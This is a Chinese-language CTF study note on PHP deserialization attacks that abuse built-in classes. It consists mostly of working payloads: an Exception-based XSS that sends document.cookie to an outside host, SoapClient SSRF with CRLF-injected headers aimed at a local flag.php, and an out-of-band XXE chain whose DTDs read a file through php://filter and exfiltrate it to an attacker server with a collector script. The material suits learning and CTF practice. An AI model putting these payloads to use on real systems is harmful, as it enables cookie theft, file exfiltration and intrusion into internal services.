




# WEB攻防-PHP反序列化&原生类TIPS&字符串逃逸&CVE绕过漏洞&属性类型特征









```
#原生自带类参考
https://xz.aliyun.com/news/8792
https://www.anquanke.com/post/id/264823
https://blog.csdn.net/cjdgg/article/details/115314651

#利用条件：
1、有触发魔术方法
2、魔术方法有利用类
3、部分自带类拓展开启

#生成原生类：
<?php
$classes = get_declared_classes();
foreach ($classes as $class) {
    $methods = get_class_methods($class);
    foreach ($methods as $method) {
        if (in_array($method, array(
			'__construct',
            '__destruct',
            '__toString',
            '__wakeup',
            '__call',
            '__callStatic',
            '__get',
            '__set',
            '__isset',
            '__unset',
            '__invoke',
            '__set_state'
        ))) {
            print $class . '::' . $method . "\n";
        }
    }
}

1、使用Error/Exception类进行XSS
<?php
highlight_file(__file__);
$a = unserialize($_GET['code']);
echo $a;
?>
-输出对象可调用__toString
-无代码通过原生类Exception
-Exception使用查询编写利用
-通过访问触发输出产生XSS漏洞
<?php
$a=new Exception("<script>alert('xiaodi')</script>");
echo urlencode(serialize($a));
?>

[BJDCTF 2nd]xss之光
<?php
$poc = new Exception("<script>window.open('http://462795d3-ea59-4f00-9657-d50f15178248.node5.buuoj.cn:81/?'+document.cookie);</script>");
echo urlencode(serialize($poc));
?>

2、使用SoapClient类进行SSRF
<?php
$s = unserialize($_GET['ssrf']);
$s->a();
?>
-输出对象可调用__call
-无代码通过原生类SoapClient
-SoapClient使用查询编写利用
-通过访问触发服务器SSRF漏洞
<?php
$a = new SoapClient(null,array('location'=>'http://192.168.1.4:2222/aaa', 'uri'=>'http://192.168.1.4:2222'));
$b = serialize($a);
echo $b;
?>

CTFSHOW-259
-不存在的方法触发__call
-无代码通过原生类SoapClient
-SoapClient使用查询编写利用
-通过访问本地Flag.php获取Flag
<?php
$ua="aaa\r\nX-Forwarded-For:127.0.0.1,127.0.0.1\r\nContent-Type:application/x-www-form-urlencoded\r\nContent-Length:13\r\n\r\ntoken=ctfshow";
$client=new SoapClient(null,array('uri'=>'http://127.0.0.1/','location'=>'http://127.0.0.1/flag.php','user_agent'=>$ua));
echo urlencode(serialize($client));
?>

3、使用SimpleXMLElement类进行xxe
<?php
$sxe=new SimpleXMLElement('http://192.168.1.4:82/76/oob.xml',2,true);
$a = serialize($sxe);
echo $a;
?>
-不存在的方法触发__construct
-无代码通过原生类SimpleXMLElement
-SimpleXMLElement使用查询编写利用

[SUCTF 2018]Homework
利用点：SimpleXMLElement(url,2,true)
oob.xml:
<?xml version="1.0"?>
<!DOCTYPE ANY[
<!ENTITY % remote SYSTEM "http://ip/send.xml">
%remote;
%all;
%send;
]>
send.xml:
<!ENTITY % file SYSTEM "php://filter/read=convert.base64-encode/resource=x.php">
<!ENTITY % all "<!ENTITY &#x25; send SYSTEM 'http://ip/send.php?file=%file;'>">
send.php:
<?php 
file_put_contents("result.txt", $_GET['file']) ;
?>
Poc：
/show.php?module=SimpleXMLElement&args[]=http://120.27.152.29/oob.xml&args[]=2&args[]=true

```

